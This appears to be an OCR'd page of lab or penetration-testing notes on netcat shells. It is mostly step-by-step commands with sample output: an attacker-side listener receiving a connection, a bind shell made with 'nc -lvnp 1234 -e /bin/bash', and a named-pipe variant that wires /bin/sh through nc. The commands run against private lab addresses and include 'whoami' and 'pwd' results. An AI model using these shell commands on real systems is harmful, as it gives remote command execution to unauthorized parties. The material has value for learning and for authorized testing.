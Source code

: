 1. Create listener on attack host.

nc -lvnp 1234

Listening on \[0.0.0.0] (family 0, port 1234)

1. Connection received by attack host.

Connection from 10.10.62.10 34924 received!

pwd

/home/shell

**Create bind shell and execute the bash process upon connection.**

1. Create listener on target.

nc -lvnp 1234 -e /bin/bash

listening on \[any] 1234 ...

1. Connect to listener from attacking machine.

nc 10.10.62.10 1234

1. Connection established.

* On target.

connect to \[10.10.62.10] from (UNKNOWN) \[10.10.52.172] 50168

* On attacker.

pwd

/home/shell

**Create named pipe for bind shell.**

1. Create listener on target.

mkfifo /tmp/f; nc -lvnp 1234 < /tmp/f | /bin/sh > /tmp/f 2>&1; rm /tmp/f

listening on \[any] 1234 ...

1. Connect NetCat to listener.

nc 10.10.19.211 1234

1. Bind shell connected to named pipe method.

* On target.

connect to \[10.10.19.211] from (UNKNOWN} \[10.10.145.37] 60982

* On attacker.

whoami

shell

pwd

/home/shell
